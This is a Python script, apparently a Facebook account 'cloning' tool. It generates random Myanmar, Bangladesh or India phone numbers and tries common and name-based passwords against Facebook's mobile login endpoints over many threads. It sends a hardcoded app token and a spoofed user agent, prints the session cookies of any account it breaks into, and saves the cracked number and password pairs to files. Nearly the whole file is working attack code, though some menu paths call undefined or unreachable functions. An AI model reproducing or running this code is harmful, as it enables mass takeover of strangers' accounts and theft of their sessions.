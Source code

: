 import os
import sys
import time
import uuid
import json
import string
import random
import requests
from requests.exceptions import ConnectionError as net_error
from concurrent.futures import ThreadPoolExecutor as speed

e = "\033[0m"
r = "\033[1;31m"
g = "\033[1;32m"
y = "\033[1;33m"
b = "\033[1;34m"
p = "\033[1;35m"
c = "\033[1;36m"
w = "\033[1;37m"

loop = 0
digits = []
okacc = []
cpacc = []

def logo():
    os.system("clear")
    print(banner)

def linex():
    print(f"{w}==================================================")

def xxx(x):
    return f"{w}[{g}{x}{w}]"

def main():
    logo()
    print(f" {xxx('1')} Start Cloning ")
    print(f" {xxx('2')} Exit Tools ")
    linex()
    xnxx = input(f" {xxx('?')} Select : ")
    if "1" in xnxx:
        r_number()
    elif "2" in xnxx:
        os.system("xdg-open https://www.facebook.com/ngeko9984")
        main()
    elif "3" in xnxx:
        linex()
        print(f" {xxx('!')} {g}Thanks For Using Tools ")
        linex()
        sys.exit()
    else:
        linex()
        print(f" {xxx('!')} {g}Select Valid Option ")
        linex()
        time.sleep(1)
        main()

def r_number():
    logo()
    print(f" {xxx('1')} Mm Cloning ")
    linex()
    c = input(f" {xxx('?')} Select : ")
    if "1" in c:
        Mm()
    else:
        linex()
        print(f" {xxx('!')} {g}Select Valid Option ")
        linex()
        time.sleep(1)
        main()

def pak():
    logo()
    print(f" {xxx('•')} Example : {g}0940, 0979, 0995, 0966 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [code+love,'Myanmar','Myanmar123','kyawkyaw','KyawKyaw123','nyinyi','nyinyi123','myanmar','myanmar123','moemoe','moemoe123','Aung123','ayeaye','ayeaye123','thuthu','thuthu123','kyaw123','soe123','zawzaw','zawzaw123','zaw123','thuzar','thuzar123','kyawgyi','kyawgyi123','linlin','linlin123','chitchit','chitchit123','waiwai','waiwai123','Kyaw12345','Wai12345','Min12345','Soe12345','Nyi12345','Zaw12345','Aung12345','aungaung123','myomyo','myomyo123','hninhnin','hninhnin123','tintin','tintin123','winmya','winmya123','marmar','marmar123','sansan','sansan123','popo123','chocho','chocho123','kyikyi','kyikyi123','123456','112233','111222','123123','aungaung']
            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def bd():
    logo()
    print(f" {xxx('•')} Example : {g}016, 017, 018, 019 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [love[1:],love,code+love,"i love you","iloveyou","bangladesh","bangladesh123","708090","102030","777000","888000","999000","123456"]
            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def india():
    logo()
    print(f" {xxx('•')} Example : {g}091, 092, 093, 094 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [love,code+love,"57273200","59039200"]
            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def m1(uid, pword, total_idz):
    global loop
    global okacc
    global cpacc
    sys.stdout.write(f"\r {w}[Fb_fxk-M1] [{loop}/{total_idz}] [OK/CP] [{len(okacc)}/{len(cpacc)}]\r"),
    sys.stdout.flush()
    try:
        for pw in pword:
            ua_string = "[FBAN/FB5A;FBAV/465.0.0.80.26;FBBV/87969472;FBDM/{density=2.0,width=1080,height=1440};FBLC/bn_IN;FBRV/450966348;FBCR/wifi;FBMF/tecno;FBBD/tecno pova;FBPN/com.facebook.katana;FBDV/RMX6182;FBSV/11;FBOP/1;FBCA/x64:arm64-v8a;]"
            data = {
                "email": uid,
                "password": pw,
                "cpl": "true",
                "credentials_type": "password",
                "error_detail_type": "button_with_disabled",
                "source": "login",
                "format": "json",
                "generate_session_cookies": "1",
                "generate_analytics_claim": "1",
                "generate_machine_id": "1",
            }
            headers = {
                "accept-encoding": "gzip, deflate", 
                "Accept": "*/*", 
                "Connection": "keep-alive", 
                "content-type": "application/x-www-form-urlencoded", 
                "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32", 
                "x-fb-friendly-name": "authenticate", 
                "x-fb-http-engine": "Liger",
                "user-agent": ua_string,
            }
            url = "https://b-api.facebook.com/method/auth.login"
            result = requests.post(url, data=data, headers=headers).json()
            if "session_key" in result:
                coki = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                print(f" {g}[Fb_fxk-OK] {uid} | {pw}")
                print(f" {w}Cookies : {g}{coki}")
                open("/sdcard/Fb_fxk-Ok.txt", "a").write(f"{uid}|{pw}\n")
                okacc.append(uid)
                break
            elif result["error_code"] == 405:
                print(f" {r}[Fb_fxk-CP] {uid} | {pw}")
                open("/sdcard/Fb_fxk-Cp.txt", "a").write(f"{uid}|{pw}\n")
                cpacc.append(uid)
                break
            else:
                continue
        loop+=1
    except net_error:
        time.sleep(10)
    except:
        pass

def m2(uid, pword, total_idz):
    global loop
    global okacc
    global cpacc
    sys.stdout.write(f"\r {w}[Fb_fxk-M2] [{loop}/{total_idz}] [OK/CP] [{len(okacc)}/{len(cpacc)}]\r"),
    sys.stdout.flush()
    try:
        for pw in pword:
            ua_string = "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Mobile Safari/537.36"
            data = {
                "adid": str(uuid.uuid4()),
                "format": "json",
                "device_id": str(uuid.uuid4()),
                "email": uid,
                "password": pw,
                "generate_analytics_claims": "1",
                "credentials_type": "password",
                "source": "login",
                "error_detail_type": "button_with_disabled",
                "enroll_misauth": "false",
                "generate_session_cookies": "1",
                "generate_machine_id": "1",
                "fb_api_req_friendly_name": "authenticate",
            }
            headers = {
                "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                "X-FB-Friendly-Name": "authenticate",
                "X-FB-Connection-Type": "unknown",
                "User-Agent": ua_string,
                "Accept-Encoding": "gzip, deflate",
                "Content-Type": "application/x-www-form-urlencoded",
                "X-FB-HTTP-Engine": "Liger",
            }
            url = "https://b-graph.facebook.com/auth/login"
            result = requests.post(url, data=data, headers=headers).json()
            if "session_key" in result:
                coki = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                print(f" {g}[Fb_fxk-OK] {uid} | {pw}")
                print(f" {w}Cookies : {g}{coki}")
                open("/sdcard/Fb_fxk-Ok.txt", "a").write(f"{uid}|{pw}\n")
                okacc.append(uid)
                break
            elif "www.facebook.com" in result["error"]["message"]:
                print(f" {r}[Fb_fxk-CP] {uid} | {pw}")
                open("/sdcard/Fb_fxk-Cp.txt", "a").write(f"{uid}|{pw}\n")
                cpacc.append(uid)
                break
            else:
                continue
        loop+=1
    except net_error:
        time.sleep(10)
    except:
        pass

banner = f"""{w}\
{w}      d88888b d8888b.        d88888b db    db db   dD 
{w}      88'     88  `8D        88'     `8b  d8' 88 ,8P' 
{r}       88ooo   88oooY'        88ooo    `8bd8'  88,8P   
{r}       88~~~   88~~~b. C8888D 88~~~    .dPYb.  88`8b   
{w}      88      88   8D        88      .8P  Y8. 88 `88. 
{w}      YP      Y8888P'        YP      YP    YP YP   YD 
{g}      Gifted By >> {g}Zaw Myo Aung
{w}==================================================
{w} >> Author  :  Zaw Myo Aung
{w} >> Github  :  _____
{w} >> Verison :  Pre____mium
{w}==================================================\
"""

if __name__ == "__main__":
    main()
